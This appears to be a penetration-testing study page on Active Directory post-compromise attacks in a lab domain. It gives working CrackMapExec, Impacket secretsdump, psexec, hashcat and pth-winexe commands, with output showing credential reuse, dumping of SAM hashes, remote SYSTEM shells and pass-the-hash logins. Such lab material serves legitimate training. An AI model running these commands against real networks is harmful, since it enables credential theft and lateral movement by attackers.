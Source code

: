 # Post-Compromise Attacks

## Pass the password

### CrackMapExec
- Install: `sudo apt install crackmapexec`
- Pass the password on the domain: `crackmapexec smb 10.0.2.0/24 -u fcastle -d DOMAIN.local -p Password1` If the password is the same for another machine in the network we will get ownership on this new machine too
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```
- We can also add --sam to the previous command to dump the sam file here we got 5 sam hashes
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] Dumping SAM hashes
SMB         10.0.2.4        445    THEDEFENDER      [+] Dumping SAM hashes
SMB         10.0.2.15       445    THEPUNISHER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
SMB         10.0.2.15       445    THEPUNISHER      Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.0.2.15       445    THEPUNISHER      [+] Added 5 SAM hashes to the database
SMB         10.0.2.4        445    THEDEFENDER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
SMB         10.0.2.4        445    THEDEFENDER      Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.0.2.4        445    THEDEFENDER      [+] Added 5 SAM hashes to the database
```

### psexec
We can also use psexec to try to get a shell on the other machine
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle:Password1@10.0.2.4
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file IEoFnNEZ.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service YXVX on 10.0.2.4.....
[*] Starting service YXVX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
THEDEFENDER
```

## Pass the Hash

- Methodology
  - Here is what we can do after dumping the hashes:
  - Crack them with hashcat
  - Use them with tools like: smbclient or pth-smbclient, psexec, wmiexec or pth-wmic, rpcdump or pth-rpcclient, ... 
  - See [here](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/) for detailed explainations on how to use the mentioned tools

### Impacket - Secretsdump.py

- We can dump hashes from our compromised machines in the network
```
┌──(root💀kali)-[~kali]
└─# secretsdump.py marvel/fcastle:Password1@10.0.2.15
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xfafe40d7e147c04806fe29ef03e04386
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[STRIPPED]
```

## Crack NTLM hashes

### Hashcat

```
┌──(root💀kali)-[~kali]
└─# hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

[STRIPPED]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1       
31d6cfe0d16ae931b73c59d7e0c089c0:                
c39f2beb3d2ec06a62cb887fb391dee0:Password2       
[STRIPPED]
```

## Pass the Hash Attack

*Note: ntlmv1 can be passed but ntlmv2 can not.*

### Crackmapexec

To pass the hash in the following line we will only need the last part after the last semicolon (only the NTHash):  
Here is the structure of the hash: `User Name:ID:LMHASH:NTHASH:::`
With this: `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`  
We will use this: `64f12cddaa88057e06a81b54e73b949b`  
We will then use this command:

```
crackmapexec smb 10.0.2.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

We would get something like this:

```
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:THEDEFENDER) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] THEPUNISHER\Frank Castle 64f12cddaa88057e06a81b54e73b949b 
SMB         10.0.2.5        445    HYDRA-DC         [-] HYDRA-DC\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
SMB         10.0.2.4        445    THEDEFENDER      [-] THEDEFENDER\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
```

### PSexec

We can use the same attack with psexec to get a shell except we will be using the full hash 
For this `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`
We will use this: `aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b`  
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle@10.0.2.15 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.15.....
[*] Found writable share ADMIN$
[*] Uploading file fQsiaobC.exe
[*] Opening SVCManager on 10.0.2.15.....
[*] Creating service OnEf on 10.0.2.15.....
[*] Starting service OnEf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### pth winexe

- `pth-winexe -U 'admin%hash' //10.10.67.135 cmd.exe`  
![image](https://user-images.githubusercontent.com/96747355/170795331-ac079349-993c-46ec-b6ce-329b9c20728f.png)  

## Resources

{% embed url="https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/" %} Lateral Movement: Pass the Hash Attack - Raj Chandel{% endembed %}  
